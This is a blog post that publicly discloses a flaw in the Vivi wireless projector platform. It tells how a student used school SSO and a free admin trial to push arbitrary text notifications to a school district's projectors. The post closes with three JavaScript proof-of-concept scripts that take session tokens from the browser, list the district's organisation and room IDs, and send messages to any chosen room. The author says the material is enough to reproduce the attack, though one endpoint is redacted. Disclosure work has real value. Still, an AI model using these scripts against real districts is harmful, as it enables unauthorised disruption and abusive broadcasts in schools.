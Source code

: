 +++
title = 'Arbitrarily Send Notifications to Any Vivi Projector'
date = 2025-05-31T00:50:52Z
draft = false
+++

While this vulnerability is more funny than immediately dangerous, the potential abuse factor is still considerable, which is why I am posting this. With this, someone could disrupt something or send inappropriate messages across a district, compromising the system, based on how much weight the messages carry (this varies school to school; in my school, nobody really cares).

![message on my school projector](../../vivi-message.png)

Although it's a bit hard to see on the image, I was able to write a bunch of nonsense to the central projectors in my school, through a vulnerability in the notification feature, and anyone in the school could see. Vivi is a wireless presentation and collaboration platform that enables users to share content, interact with presentations, and manage projectors without the need for physical connections. It's like software for a Promethean ActivPanel, except Vivi centralizes projector management a lot more, kind of like Google Admin Console. Vivi exposes two important things: first is app.vivi.io, which uses your IP to determine what district you might be trying to log into. Once logged into app.vivi.io, you essentially have no permissions by default. You can get configured rooms in your district, and do stuff like send a request for futher access, but that's about it. The second is a lot more interesting: admin.vivi.io, AKA Vivi Central. This is the centralization piece: administrators can control the district's network of projectors using Vivi through Vivi Central.

Theoretically, instead of silly scripts, notifications could contain offensive or disruptive content, and be pushed to the entire district through chaining data that Vivi gives, but I would personally say that it's pretty unlikely. This post also includes the failures I saw; it was suprised how locked-down the system was. Yes, although I did find some more "vulnerabilities" in the system and what it returned, most of it wasn't useful to chain into a larger vulnerability, and they weren't very important by themselves. I still feel like there's more vulns that exist in Vivi, though.

## TL;DR:

With a target district ID and room IDs for projectors, you can push a text notification to the device. This can be anything, and it can go for a time that you specify. There is only one requirement: you need to be authenticated to the district on Vivi, and in my case, it was possible through SSO (which also automatically signed me up), so you can get room IDs. PoC scripts are attached, and it was made to do this automatically.

Then, to get access to Vivi Central (where you can then run the actual notification-pusher script), sign up at the [IT Admins Trial](https://www.vivi.io/trial/) page; you can create a free, credit-cardless account that works for Vivi Central. Then, with the data gathered through the two prior PoC scripts, you can use the last PoC on https://admin.vivi.io to create the notifications event.

## How it started

In our school, there is a projector in the main commons room that creates a massive projection; for a while, I've wanted to do something to it, but I had never had the opportunity. It was too far up to do anything with the projector's sensors, even when I was directly under it. I couldn't get its IP or Mac Address, and it was actually pretty secure. In fact, I was pretty confused about how they turned the projector off at the end of the day; after this vulnerability, I assume they do it through Vivi Central.

Near the end of the school year, I saw something that immediately grabbed my attention: it was a splash page, and although at first glance, it might not have looked very important, it leaked the software's name which manages the projector. After I saw the instructions on the splash screen and an access code, I immediately tried to start casting my screen to the projectors.

## Plan A

I went to https://app.vivi.io, which asked me for a Vivi account. When I pressed sign in, it created an SSO popup, and I used my account, which actually worked. This suprised me, as I did not expect it to automatically create a student account for me. I saw a list of rooms on my district, and I chose my central projector, which was labeled in a way that I could easily identify it.

However, when I saw the dashboard, I was somewhat disappointed. As expected, I could do nothing important. It was totally useless, but I didn't completely give up. I opened dev tools and started reconning the app, to see if it was a simple bypass. It wasn't, as there were server side checks on most of my actions, but then I saw something that I did not expect to see:

![ip.png](../../ip.png)

## Plan B

It completely leaked the INTERNAL IP and Mac Address of the projector! This was information I was looking for, and now, it leaks it, AND updates the internal IP when it changes. Of course, I couldn't do anything important off the bat with this IP (other than try stuff like a deauth attack, which would have been useless, anyways), but it motivated me to keep digging for an actual vulnerability. My goal was to put my own content arbitrarily on the projector, and I envisioned something like pushing my own image (I was unable to do this, as this was locked down by Vivi Central).

I kept pentesting app.vivi.io, and although I found some cool stuff, like the internal menu used by Vivi Staff, much of it was unimportant.

I found Vivi Central a little bit later, but I wasn't able to log into Vivi Central using my school account like how I was able to log into app.vivi.io. However, a little bit of searching later, I found that they issued on-demand access through free trials that didn't even ask for a credit card. Through this, I was able to access the web panel. From there, after a little tinkering around, I was able to use their request to post a notification to any Vivi device (I know I skipped a lot here, but I did so because I've procrastinated writing this public disclosure for a while; I may complete it later)

## Reporting

The funny thing is that I couldn't find a support email for general inquiries at all, and instead, I had to use their super-restricted general contact form. I used it to tell them about the vulnerability and to email me back so I can report it through email. As I expected, after two buisness days, I got zero replies. I avoid custom forms from companies for this reason: the support team is used to redirecting people to other sectors, and I always have client side reciepts to prove that I did report the issue. However, with Vivi's form, I can't prove that I sent anything, or that they got it at all.

Due to the lack of response to the issue and Vivi's lack of a responsible disclosure process, I'll just release this disclosure early. Please note that the attached PoCs have been redacted a little bit (just the API urls), so I'm not literally releasing zero-days, but the information stated here is enough to reproduce. 

## PoC:

In https://app.vivi.io, while authenticated into the target's district, run this script to grab the organization ID:

```js
fetch("https://api.vivi.io/api/v1/users/identity", {
  "headers": {
    "x-user-email": JSON.parse(localStorage["vivi:session"]).authenticated.user.email,
    "x-user-token": JSON.parse(localStorage["vivi:session"]).authenticated.user.auth_token
  },
  "method": "GET",
  "mode": "cors",
  "credentials": "omit"
})
.then(data => data.json())
.then(data => alert(data.organisation_id))
```

Then, run this script to grab a list of rooms in your district (you must do this in https://app.vivi.io/):

```js
fetch("https://api.vivi.ii/api/v1/rooms?per_page=10000", {
  "headers": {
    "x-user-email": JSON.parse(localStorage["vivi:session"]).authenticated.user.email,
    "x-user-token": JSON.parse(localStorage["vivi:session"]).authenticated.user.auth_token
  },
  "method": "GET",
  "mode": "cors",
  "credentials": "omit"
})
.then(data => data.json())
.then(data => {
    data = data.rooms
    const rooms = data.map(room => ({
        name: room.name,
        room_ids: room.room_ids[0]
    }));
    console.log(rooms);
})
```

Once the target org ID and room ID has been identified, while authenticated in https://admin.vivi.io/ (make sure to sign up for a free trial, to access Vivi Central), run this script to create the notification:

```js
const orgId = prompt("Enter the Organization ID:");
const roomIds = prompt("Enter Room IDs (comma separated):").split(',');
const message = prompt("Enter the message:");
const duration = prompt("Enter the duration (in seconds):");

const authToken = localStorage.getItem("authToken");

if (!authToken) {
    alert("No authorization token found in localStorage.");
} else {
    const payload = {
        destinations: {
            room_group_ids: [],
            room_ids: roomIds
        },
        duration: parseInt(duration, 10),
        message: message,
        organisation_id: orgId
    };

    fetch("https://api.vivi.io/[redacted]", {
        method: "POST",
        headers: {
            "accept": "application/vnd.api+json",
            "authorization": `Bearer ${authToken}`,
            "content-type": "application/vnd.api+json",
        },
        body: JSON.stringify(payload),
        mode: "cors",
        credentials: "omit"
    })
    .then(response => response.json())
    .then(data => {
        console.log("Notification created successfully:", data);
        if (data.errors) {
            
        } else {
            alert("Notification sent successfully. ID: " + data.notification_id);
        }
    })
    .catch(error => {
        console.error("Error sending notification:", error);
        alert("Error sending notification.");
    });
}
```

You can target multiple rooms by splitting Room IDs using commas.